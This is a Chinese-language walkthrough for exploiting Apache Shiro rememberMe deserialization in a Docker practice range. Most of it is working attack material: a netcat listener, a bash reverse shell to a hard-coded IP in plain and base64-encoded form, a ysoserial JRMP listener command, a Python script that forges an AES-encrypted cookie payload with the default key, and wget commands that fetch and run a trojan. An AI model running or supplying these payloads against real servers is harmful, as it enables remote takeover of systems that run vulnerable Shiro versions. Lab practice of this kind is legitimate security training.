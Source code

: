 # shiro 反序列化

![靶场](https://github.com/Medicean/VulApps/tree/master/s/shiro/1)

### 获取环境:
**拉取镜像到本地**
```
$ docker pull medicean/vulapps:s_shiro_1
```
**启动环境**
```
$ docker run -d -p 80:8080 medicean/vulapps:s_shiro_1
```
-p 80:8080 前面的 80 代表物理机的端口，可随意指定。

**使用与利用**

访问 http://你的 IP 地址:端口号/



**反弹shell**

1. 监听VPS端口

```
yun install nc
nc –lvp 1234
```

2. 使用 jackson 配合bash编码
地址：
http://www.jackson-t.ca/runtime-exec-payloads.html

得到编码后的结果：
```
bash -I >& /dev/tcp 45.77.205.238/1234 0>&1  # ip为vps ip
```

```bash
bash -c {echo,YmFzaCAtSSA+JiAvZGV2L3RjcCA0NS43Ny4yMDUuMjM4LzEyMzQgMD4mMQ==}|{base64,-d}|{bash,-i}
```


3. 通过ysoserial中JRMP监听模块，监听6666端口并执行反弹shell命令。

```
java -cp ysoserial-master-SNAPSHOT.jar ysoserial.exploit.JRMPListener 6666 CommonsCollections4 "bash -c {echo,YmFzaCAtSSA+JiAvZGV2L3RjcCA0NS43Ny4yMDUuMjM4LzEyMzQgMD4mMQ==}|{base64,-d}|{bash,-i}"
```
![](img/1.png)

4. 使用shiro.py生成payload
```
python shiro.py 45.77.205.238:6666   # ip为vps ip
```

代码如下 python版本为2.7：
```py
import sys
import uuid
import base64
import subprocess
from Crypto.Cipher import AES
def encode_rememberme(command):
     popen = subprocess.Popen(['java', '-jar', 'ysoserial-master-SNAPSHOT.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
     BS = AES.block_size
     pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
     key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
     iv = uuid.uuid4().bytes
     encryptor = AES.new(key, AES.MODE_CBC, iv)
     file_body = pad(popen.stdout.read())
     base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
     return base64_ciphertext
if __name__ == '__main__':
     payload = encode_rememberme(sys.argv[1])  
print "rememberMe={0}".format(payload.decode())

```
> from Crypto.Cipher import AES 安装不上这个包的解决方法

```
pip install pycryptodome
```

![](img/2.png)

等回弹即可


## 使用web服务器

自建个服务器，写个shell的马，上传到服务器，开监听，不停的生成cookie发包即可。

```bash
yum install wget/apt install wget
wget http://xxxxxxx/xxx.xxx 马的位置
chmod 777 马
./xxx.xxx
```
![](img/3.png)
